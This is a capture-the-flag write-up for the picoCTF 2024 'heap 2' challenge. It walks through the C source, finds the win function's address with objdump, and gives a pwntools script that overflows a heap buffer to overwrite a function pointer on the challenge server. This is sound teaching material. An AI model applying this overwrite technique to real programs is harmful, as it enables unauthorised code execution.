 # heap 2

```
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.
 
Hints:
1. Are you doing the right endianness?
```
Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`
```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us
```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```
As before, the difference between the memory positions is 32 bytes. 
```bash
python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.
```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`
```bash
objdump -t chall | grep win
00000000004011f0 g     F .text  0000000000000011              check_win
00000000004011a0 g     F .text  0000000000000042              win
```
So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 61205

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag
```bash
~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```
